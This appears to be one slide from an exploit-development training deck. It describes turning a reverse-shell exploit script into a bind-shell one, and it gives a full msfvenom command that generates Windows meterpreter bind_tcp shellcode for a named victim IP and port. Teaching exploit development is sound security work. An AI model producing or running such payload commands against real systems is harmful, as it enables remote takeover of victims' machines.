

# 2 Create bind-shell.py
cp reverse-shell.py bind-shell.py
Change the victim IP and SHELL of bind-shell.py
SHELL: msfvenom -p windows/meterpreter/bind_tcp RHOST=192.168.7.62 LPORT=11111 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a'

35